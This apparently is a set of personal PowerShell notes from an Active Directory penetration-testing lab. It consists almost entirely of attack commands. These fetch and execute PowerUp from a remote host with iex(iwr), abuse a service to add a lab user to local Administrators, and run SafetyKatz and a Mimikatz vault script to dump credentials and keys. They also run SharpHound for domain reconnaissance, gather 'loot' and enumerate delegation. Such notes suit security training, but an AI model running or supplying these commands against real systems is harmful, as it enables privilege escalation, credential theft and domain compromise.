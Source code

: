 ```powershell
Import-Module .\PowerUp.ps1
iex(iwr 'http://172.16.100.48/PowerUp.ps1' -useb)

Invoke-AllChecks
Get-ServiceUnquoted -Verbose
Get-ModifiableServiceFile -Verbose

Get-ModifiableService -Verbose

help  Invoke-ServiceAbuse

Invoke-ServiceAbuse -Name SNMPTRAP -UserName "dcorp\student548" -Verbose

net1 localgroup Administrators
```

```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe -args sekurlsa::evasive-keys exit
```

```powershell
. C:\Users\Public\Invoke-MimiEx-vault.ps1
```

> In a privileged shell

 ```powershell
C:\Users\Public\Loader.exe -Path C:\Users\Public\\SharpHound.exe -args --collectionmethods Group,GPOLocalGroup,Session,Trusts,ACL,Container,ObjectProps,SPNTargets,CertServices --excludedcs --zipfilename shout
```

> Copy over to A:\loot

Unconstrained delegation?
```powershell
Get-DomainComputer -UnConstrained
```

Constrained delegation?
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```